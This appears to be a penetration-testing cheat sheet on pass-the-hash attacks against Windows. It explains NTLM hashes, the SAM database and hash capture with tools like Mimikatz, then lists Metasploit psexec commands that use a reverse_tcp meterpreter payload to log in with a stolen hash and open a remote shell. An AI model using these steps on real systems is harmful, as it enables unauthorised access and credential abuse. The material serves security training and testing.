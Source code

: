 --- ---

<h2>General</h2>

Pass-the-hash (PtH) is a technique that allows an attacker to authenticate to a remote system using the underlying NTLM or LAN Manager (LM) hash of a user's password, instead of the actual password. This can allow an attacker to gain access to a system or network without knowing the actual password of the user.

On a Windows system, user passwords are stored in a hashed format in the system's local security database, called the Security Account Manager (SAM). When a user enters their password, the system hashes the entered password and compares it to the stored hash to authenticate the user.

In a PtH attack, the attacker obtains the hash of a user's password and uses it to authenticate to a system as that user. This can be done by capturing the hash through a variety of means, such as through a network sniffer, by extracting it from a compromised system, or by using a tool like Mimikatz. Once the attacker has the hash, they can use it to authenticate to a system without knowing the actual password.

---

<h2>Commands</h2>

Make sure you have gather some hash before starting this step and also have a meterpreter session

PtH Module
```
use windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
show options   ---> Set the options (RHOST, RPORT, SMB DOMAIN.., USER/PASS or HASH)
run
```
